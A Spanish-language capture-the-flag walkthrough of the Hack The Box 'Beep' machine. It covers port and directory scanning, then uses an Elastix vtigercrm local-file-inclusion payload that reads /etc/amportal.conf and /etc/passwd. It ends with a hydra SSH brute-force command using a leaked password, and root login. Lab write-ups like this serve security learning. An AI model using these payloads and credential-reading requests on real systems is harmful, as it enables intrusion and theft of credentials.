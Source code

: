 ![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/beep.jpg)

## Linux - Easy
IP = 10.10.10.7

### USER ###

*** 
Ejecutamos nmap 
    
    nmap 10.10.10.7 -p- --open --min-rate 5000 -vv -n -Pn -oG allPorts
    
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/allports.jpg)

    nmap 10.10.10.7 -sC -sV -p80  -oN targeted

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/targeted.jpg)

Detectamos un apache, openssh, smtp, imap, ssl 
Revisamos la pagina web vemos que es un elastix (https://es.wikipedia.org/wiki/Elastix)

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/elastix.jpg)

realizamos un scaneo de directorios en busca de algo mas de información

    wfuzz -c -t 400 --hc=404 --hh=1785 -L -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.7/FUZZ/
            
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/wfuzz.jpg)

Detectamos varias paginas entre ellas admin accedemos e intentamos conectar con las password por defecto y no funciona.
Buscamos informacion sobre Elastix y encontramos una vulnerabilidad LFI 
(https://www.exploit-db.com/exploits/37637)

    /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
    
Lo ejecutamos y vemos que nos muestra unas credenciales.

[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/lfi.jpg)

probamos a ver /etc/passwd para ver los usuarios que tienen bash e intentar conectar con ellos

     /vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
     
[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/usuarios.jpg)

Sacamos el listado de usuarios y dejamos solo los que tengan bash

[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/bash.jpg)
[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/bash2.jpg)


lanzamos hydra para ver si nos conecta por ssh con las credenciales obtenidas.

    hydra 10.10.10.7 ssh -L user.txt -p jEhdIekWmdjE -f -vv
    
[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/hydra.jpg)

### ROOT ###

*** 
Accemos con root por ssh

    ssh -o KexAlgorithms=diffie-hellman-group1-sha1 -o Ciphers=aes256-cbc root@10.10.10.7
    
 [](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/ssh.jpg)

conseguimos la flag de user.txt

[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/flagUser.txt.jpg)

conseguimos la flag de root.txt

[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/flagRoot.jpg)



